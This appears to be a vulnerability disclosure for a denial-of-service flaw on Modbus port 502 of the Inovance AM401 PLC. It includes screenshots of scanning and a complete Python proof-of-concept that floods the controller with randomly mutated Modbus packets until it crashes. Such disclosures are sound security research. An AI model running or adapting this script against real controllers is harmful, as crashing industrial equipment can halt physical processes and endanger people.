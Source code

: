 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

# Details
My host ip:![image](https://github.com/user-attachments/assets/7a6cd389-bddb-43c9-994c-5356f3468745)

Connectivity test of the device:
![image](https://github.com/user-attachments/assets/4c48b67b-3d88-4e49-9689-a3cd9046b9ce)

Nmap scans device ports:
![image](https://github.com/user-attachments/assets/9038fe3e-9051-4d16-b732-b579b933c96d)
You can see that port 502 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/62888b9e-8f0f-4a09-a26a-cd344c7c2345)

Soon you will see the device crash.
![image](https://github.com/user-attachments/assets/189ccdf2-398a-48bf-95f8-069994ebfbb4)
![image](https://github.com/user-attachments/assets/00e1625c-d950-4041-bc3c-986838f74292)


# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
            import time
            # time.sleep(0.1)
            # s.close()
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```

# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
